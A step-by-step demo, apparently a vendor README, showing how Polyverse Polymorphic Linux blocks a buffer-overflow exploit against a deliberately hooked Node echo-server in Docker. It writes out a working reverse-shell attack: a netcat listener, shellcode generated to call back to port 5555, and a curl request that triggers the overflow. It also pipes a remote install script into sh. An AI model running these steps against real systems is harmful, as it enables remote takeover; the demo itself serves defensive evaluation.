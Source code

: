 # Demonstration: Polyverse Polymorphic Linux
## Set up for a Reverse Shell
### (1) Start nc listening on port 5555 (Session-1)
    nc -kl 5555
## Run Server with Readhook
### (2) Start the container with an interactive shell (Session-2)
    docker run -it --rm --name echo -p 8080:8080 polyverse/readhook-node-echo-server /bin/sh
### (2) We'll need curl and wget later
    apk update && apk add curl wget ca-certificates && update-ca-certificates
### (2) Run the echo-server with readhook in front of libc
    LD_PRELOAD="/tmp/fullhook.so /tmp/basehook.so" node /src/echo-server.js
## Generate Shell-Code and Perform Exploit
### (3) Generate shell-code for the exploit (Session-3)
    export shellCode=$(curl localhost:8080/xyzzxMAKELOADdocker.for.mac.localhost:5555)
### (3) Send shell-code to the OVERFLOW for a reverse shell
    curl localhost:8080/$shellCode
### (1) Check that the overflow resulted in a remote shell
    ls && whoami && exit
## Install Polyverse Polymorphic Linux
### (2) Add Polyverse Polymorphic Linux
    curl https://repo.polyverse.io/install.sh | sh -s vZ2v3Bo4Kbnwj9pECrLsoGDDo
### (2) Update packages with Polymorphic Linux packages
    sed -n -i '/repo.polyverse.io/p' /etc/apk/repositories && apk upgrade --update-cache --available
## Test Polyverse Polymorphic Linux
### (2) Re-run the echo-server with (only) basehook.so
    LD_PRELOAD=/tmp/basehook.so node /src/echo-server.js
### (3) Try the shellCode with Polymorphic Linux
    curl localhost:8080/$shellCode
### (1) Confirm that nobody phoned-home to the listener
### (2) Confirm that the server terminated abnormally
